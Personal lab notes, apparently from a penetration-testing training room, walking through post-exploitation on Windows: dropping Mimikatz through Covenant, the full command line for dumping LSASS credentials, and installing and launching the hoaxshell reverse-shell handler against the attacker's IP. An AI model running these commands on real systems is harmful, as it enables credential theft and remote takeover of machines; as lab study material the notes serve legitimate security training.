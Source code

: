 Now that we have administrator access to the machine, we can follow our post-exploitation methodology and dump credentials. To aid us in dumping credentials, we will be using the infamous tool Mimikatz. We will also be utilizing Covenant to drop Mimikatz.

![[Task 36 -  That's not a cat that's a dawg-20241014150208220.webp]]

Mimikatz is a well-known tool for a variety of post-exploitation activities. We will be using it to dump credentials from LSASS. [T1003](https://attack.mitre.org/techniques/T1003/001/) From MITRE ATT&CK. Described from ATT&CK as "Adversaries may attempt to access credential material stored in the process memory of the Local Security Authority Subsystem Service (LSASS). After a user logs on, the system generates and stores various credential materials in LSASS process memory. These credential materials can be harvested by an administrative user or SYSTEM and used to conduct Lateral Movement using Use Alternate Authentication Material."  

To run Mimikatz, we can use Covenant to drop the binary. Covenant has a task for Mimikatz; however, it is outdated and does not work on modern Windows systems, so we will need to compile or download our binary to use.  

We can upload a Mimikatz binary using the `Upload` task and obtain a binary from the releases page [https://github.com/gentilkiwi/mimikatz/releases/](https://github.com/gentilkiwi/mimikatz/releases/) or compile the project yourself. Covenant will present you with a pop-up window to drop the file onto, and Covenant will host the file for you and upload the file to the server. Find an example of the window below.

![[Task 36 -  That's not a cat that's a dawg-20241014150423796.webp]]

To ensure a successful upload, you will need to specify where the file is to be uploaded on the target and the file's location on your attacking machine. Find an example of file path syntax below.

![[Task 36 -  That's not a cat that's a dawg-20241014150512569.webp]]

Once the file is uploaded, we can use the `Shell` task to execute the binary. Since Mimikatz has its own CLI, you will need to send all commands to be run within Mimikatz in one command so that Covenant can interpret it.  

---

Now that we have Mimikatz executing on the system, we can look through its modules and syntax. Find an outline of a few Mimikatz modules below.  

- `standard`
- `privilege`
- `crypto`
- `sekurlsa`
- `kerberos`
- `lsadump`
- `vault`
- and more

For this task, we will be focusing on the `privilege`, `token`, and `sekurlsa` modules. Within each of these modules, a number of commands can be used to perform various operations. For more information about all the features of Mimikatz, check out the GitHub wiki, [https://github.com/gentilkiwi/mimikatz/wiki](https://github.com/gentilkiwi/mimikatz/wiki).

The first module we will be looking at is `privilege`, from this module, we will use the `privilege::debug` command. This command will allow us to ensure that Mimikatz is running at the proper privilege levels before performing any operations.

The second module we will be looking at is `token`, from this module, we will use the `token::elevate` command. This command will perform token impersonation to gain elevated integrity on the system. Token elevation is not always necessary but can help to troubleshoot when Mimikatz is struggling to dump credentials.

The third module we will be looking at is `sekurlsa`, this module will contain a majority of the commands to interact with and abuse LSASS. From this module, we will be using the `sekurlsa::logonpasswords`. This command will dump the credentials of accounts already authenticated to the endpoint. We can also use the command `lsadump::lsa`, which has a similar function but will dump LSASS credentials from memory.  

We can put all of these commands together to make a final Mimikatz command that we can use in Covenant. If using this tool normally, you could send each one of these commands separately, but we have to send them a little bit differently because we are using Covenant. Find example syntax below for Mimikatz.  

Syntax: `.\Mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" exit`

It is important that you exit Mimikatz, or your shell task will never complete.

We should now have a working method to dump credentials on the endpoint.


> [!failure]
> Forget all the above because as you've been advised earlier we're not going to use COVENANT.


---

## hoaxshell

Hoaxshell is a Windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell, based on the following concept:

![[Task 36 -  That's not a cat that's a dawg-20241026060923165.webp]]

More info [here](https://github.com/t3l3machus/hoaxshell).

### Installing hoaxshell on the attacking machine

```
git clone https://github.com/t3l3machus/hoaxshell
cd ./hoaxshell
sudo pip3 install -r requirements.txt
chmod +x hoaxshell.py
```


> [!tip]
> If you have some trouble witn pip3 you can run
`sudo pip3 install -r requirements.txt --break-system-packages`


### Running hoaxshell

`python3 hoaxshell.py -s <tun0 IP>` 

![[Task 36 -  That's not a cat that's a dawg-20241026061603130.webp]]

